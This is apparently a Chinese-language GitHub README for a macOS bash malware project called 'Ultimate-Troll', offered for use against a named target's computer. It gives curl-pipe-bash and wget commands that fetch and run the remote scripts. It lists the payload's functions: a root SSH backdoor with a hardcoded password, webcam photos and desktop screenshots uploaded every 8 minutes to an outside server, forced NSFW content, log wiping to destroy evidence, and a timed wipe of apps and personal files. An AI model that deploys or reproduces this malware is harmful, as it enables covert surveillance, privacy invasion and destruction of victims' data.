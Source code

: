 # 史上第一款，MacOS M系列病毒，100%纯bash（需要手动给予权限/nclick exploit）

首次设置
---
`sudo curl -fsSL https://raw.githubusercontent.com/Thomas20090425/Ultimate-Troll/refs/heads/main/humaninter.sh | bash`

一键启动
---
`wget https://raw.githubusercontent.com/Thomas20090425/Ultimate-Troll/refs/heads/main/init-main.sh && sh init-main.sh`

(一键启动之后建议先CTRL+C然后把~/programfiles/time.txt文件vim一下往后调3个小时，让他先强制运行一遍，确认上传+权限Terminal已经给好。然后重启电脑，确认DL.app也拥有相应权限。之后建议把Time再改回来然后直接重启。）

一键启动如果出现无法启动，没有下载完全等bug请用一下指令修复

`sudo rm -rf ~/programfiles && wget https://raw.githubusercontent.com/Thomas20090425/Ultimate-Troll/refs/heads/main/init-main.sh && sh init-main.sh`

病毒功能介绍：
---
1.把root用户变成活跃用户，激活root的ssh，并将root密码更改为Aa112211!，给MacOs系统创建后门

2.完全禁用MacOS睡眠功能，保证系用永远运行，关上机盖不会影响脚本运行，更不会影响ssh的通行。

3.每8分钟通过摄像头拍一张图片，截一张桌面的图片并上传至drive.genshinimpact.ca

4.NSFW抽卡式随机壁纸，每隔随机一段时间，会自动获取一张壁纸，保底为10（第十张图片一定是NSFW，否则SFW）通过两个不同的API，达到终极社死。

5.随机音频，每隔随机一段时间，会自动从内置的音效文件夹里播放一个音效，保底为10（第十个音频一定是长音频，否则短音效），播放过程中，声音为100%，而且无法静音，无法暂停，系统无法显示播放数据。

6.每隔一段时间会通过默认浏览器随机打开在名单里的一个默认黄色网页。

7.带有紧急叫停功能，每隔20秒会检查https://genshinimpact.ca/favicon.ico 在不在，如果返回数据不是200，那么说明已经被紧急叫停。进入证据销毁模式，删除所有软件残留以及mac的全乎log与cach，恢复所有设置并且重新启动刷新低代码nvram。（这个也是“原谅朋友”功能）

8.自动安装所有依赖脚本。

9.3个月后系统自毁（有杀伤力）：删除所有app，删除所有个人文件，创建50个乱码帐户，将admin帐户密码改成Aa112211!。（脚本同时自毁）。

Note：
---
1.这名感谢某个金主爸爸赞助了50$买了我3天的时间编了这个bash，我3个月内再碰一次bash我就是个狗。

2.任何损失和作者无关，如果你不知道你在干什么，不要干！

3.由于本人偷懒，很多东西没有用variable，是直接按照那个人要攻击的要求做的。所以fork之后是不可能在你的电脑上能用的。建议各位更改脚本里的：
 - 用户名
 - 密码
 - 后门网站
 - WebDav文件上传地址

4.玩的开心。